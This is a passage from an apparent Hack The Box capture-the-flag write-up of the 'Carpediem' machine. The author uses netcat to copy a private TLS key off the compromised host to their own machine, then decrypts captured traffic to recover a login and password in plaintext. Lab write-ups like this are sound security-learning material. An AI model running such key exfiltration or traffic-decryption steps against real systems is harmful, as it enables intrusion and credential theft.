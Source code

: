 Next step took me embarrassingly long time to figure out - from our _linpeas_ output we found a private SSH key. We can use this key to decrypt all SSL traffic, and within we find something interesting.

```bash
➜  carpediem nc -lp 1234 > backdrop.carpediem.htb.key
hflaccus@carpediem:/tmp$ nc -w3 10.10.14.10 1234 < /etc/ssl/certs/backdrop.carpediem.htb.key
```

![](/assets/images/htb-writeup-carpediem/carpediem18.png)

Now if we follow the TLS Stream we find a login to https://backdrop.carpediem.htb with credentials `jpardella:tGPN6AmJDZwYWdhY`